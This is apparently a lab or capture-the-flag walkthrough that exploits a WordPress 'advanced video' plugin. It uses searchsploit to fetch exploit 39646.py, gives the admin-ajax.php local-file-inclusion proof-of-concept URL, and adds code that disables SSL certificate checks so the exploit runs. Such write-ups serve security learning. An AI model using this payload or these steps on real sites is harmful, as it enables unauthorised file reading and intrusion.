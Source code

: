     searchsploit advanced video

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550884050615_image.png)


*Exactly the avenue we want.*

Download copy of exploit to directory

    searchsploit -m exploits/php/webapps/39646.py

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550884138707_image.png)


*investigating the code for how it works and what is required to use the exploit.*


    POC - http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]

*How we will need to craft our entry.*


# LFI

Modifying the exploit
The exploit requires SSL to function properly but as we know this environment thats not going to happen. We need to bypass that ssl check and after some tinkering I found a solution.

before modification:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885414575_image.png)


Adding

    #adding the following the the exploit
    import os, ssl
    
    if (not os.environ.get('PYTHONHTTPSVERIFY', '') and
        getattr(ssl, '_create_unverified_context', None)): 
        ssl._create_default_https_context = ssl._create_unverified_context 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885469166_image.png)


*After modification and running of application we now have a new blog post*

New blog post from exploit:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885537646_image.png)



![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885580171_image.png)


*file uploaded to* `*uploads*` *as expected.*

Download file locally and take a look inside!

